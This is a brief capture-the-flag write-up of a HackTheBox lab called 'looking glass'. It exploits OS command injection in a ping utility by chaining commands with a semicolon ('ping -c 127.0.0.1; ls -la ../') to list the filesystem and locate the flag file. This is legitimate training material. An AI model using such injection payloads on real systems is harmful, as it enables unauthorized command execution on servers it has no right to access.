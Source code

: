 # looking glass

Completed: Yes
Platform: HackTheBox

Visited instance.

It supplies two opportunity: execute ping and traceroute. The first thing that comes on your mind have to be OS command injection.

Thus, I tried `ping with 1 packet and after that show me whoami`:

```bash
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.062 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.062/0.062/0.062/0.000 ms
www
```

It showed `www` user. Remains to find the flag.

```bash
ping -c 127.0.0.1; ls -la ../
total 88
drwxr-xr-x   1 root root 4096 Jul  7 09:00 .
drwxr-xr-x   1 root root 4096 Jul  7 09:00 ..
-rwxr-xr-x   1 root root    0 Jul  7 09:00 .dockerenv
drwxr-xr-x   1 root root 4096 Nov  2  2020 bin
drwxr-xr-x   2 root root 4096 Sep 19  2020 boot
drwxr-xr-x   5 root root  360 Jul  7 09:00 dev
-rw-------   1 root root  127 Nov  2  2020 entrypoint.sh
drwxr-xr-x   1 root root 4096 Jul  7 09:00 etc
-rw-r--r--   1 root root   37 Nov  2  2020 flag_8UIGg
drwxr-xr-x   2 root root 4096 Sep 19  2020 home
drwxr-xr-x   1 root root 4096 Nov  2  2020 lib
drwxr-xr-x   2 root root 4096 Oct 12  2020 lib64
drwxr-xr-x   2 root root 4096 Oct 12  2020 media
drwxr-xr-x   2 root root 4096 Oct 12  2020 mnt
drwxr-xr-x   2 root root 4096 Oct 12  2020 opt
dr-xr-xr-x 429 root root    0 Jul  7 09:00 proc
drwx------   2 root root 4096 Oct 12  2020 root
drwxr-xr-x   1 root root 4096 Jul  7 09:00 run
drwxr-xr-x   1 root root 4096 Nov  2  2020 sbin
drwxr-xr-x   2 root root 4096 Oct 12  2020 srv
dr-xr-xr-x  13 root root    0 Jul  6 12:37 sys
drwxrwxrwt   1 root root 4096 Jul  7 09:00 tmp
drwxr-xr-x   1 root root 4096 Oct 12  2020 usr
drwxr-xr-x   1 root root 4096 Nov  2  2020 var
drwxr-xr-x   2 root root 4096 Nov  2  2020 www
```

`flag_8UIGg` is the flag.